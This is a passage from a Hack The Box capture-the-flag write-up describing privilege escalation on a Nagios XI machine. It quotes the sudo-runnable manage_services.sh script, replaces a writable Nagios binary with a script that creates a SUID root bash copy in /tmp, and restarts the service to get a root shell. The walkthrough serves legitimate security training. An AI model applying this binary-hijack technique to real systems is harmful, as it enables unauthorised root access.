

## Privilege Escalation
I also upgrade and stabilize my shell with the typical `Python3 import pty` method. At this point we can grab the user flag under our home directory and start internal enumeration to escalate privileges towards root.



Listing the `/home` directory shows only one other user named `svc`, however they don't own many files and I'm confident we shouldn't need to pivot to their account first. I go about the usual routes of privesc, such as looking for SUID bits set on dangerous binaries, loosely secured backups, cronjobs being ran by root. That only showed that we are allowed to run a few PHP scripts as root user without a password.



### Binary Hijacking w/ Sudo
Seeing as we have full access over the Nagios service, if we we're able to write to a script or binary that one of the service control commands uses, we may be able to execute commands on behalf of root. One of the more interesting scripts that we allowed to execute with Sudo is `manage_services.sh`.

In essence, it prompts the user to specify an action as well as for what service it should be performing it on. Once validated that both arguments are okay, then it will call systemctl.

```
# Things you can do
first=("start" "stop" "restart" "status" "reload" "checkconfig" "enable" "disable")
second=("postgresql" "httpd" "mysqld" "nagios" "ndo2db" "npcd" "snmptt" "ntpd" "crond" "shellinaboxd" "snmptrapd" "php-fpm")

[...]

# Ubuntu / Debian

if [ "$distro" == "Debian" ] || [ "$distro" == "Ubuntu" ]; then
    # Adjust the shellinabox service, no trailing 'd' in Debian/Ubuntu
    if [ "$service" == "shellinaboxd" ]; then
        service="shellinabox"
    fi

    if [ `command -v systemctl` ]; then
        `which systemctl` --no-pager "$action" "$service" $args
        return_code=$?
    else
        `which service` "$service" "$action"
        return_code=$?
    fi
fi
```

I'll zero in on the Nagios service since we should have plenty of permissions over it already. A quick Google search reveals that a common binary location for it is at `/usr/local/nagios/bin/nagios`.



Checking that we have write permissions on it as well as the directory confirm that we're good to replace it with a malicious script which should be executed by root as soon as the service is called.



Saving the original service to a `.bak` file for good measure and creating a script in its stead primes us to restart the service. If all goes well, it should execute commands and allow us to spawn a root shell. Be sure to make the new "Binary" executable so we don't run into any problems.

```
#!/bin/bash

cp /bin/bash /tmp/bash
chown root:root /tmp/bash
chmod +s /tmp/bash
```

Lastly, let's run the manage_services.sh script in order to restart Nagios and check `/tmp` for the bash clone.

```
sudo /usr/local/nagiosxi/scripts/manage_services.sh restart nagios
```



Using that to spawn a root shell and grab the final flag under the `/root` directory completes this challenge. Overall, this box was pretty technical and required a good understanding as to how APIs are used to perform actions. I enjoyed this challenge so thanks to [TheCyberGeek](https://app.hackthebox.com/users/114053) & [ruycr4ft](https://app.hackthebox.com/users/1253217) for creating it.

I hope this was helpful to anyone following along or stuck and happy hacking!
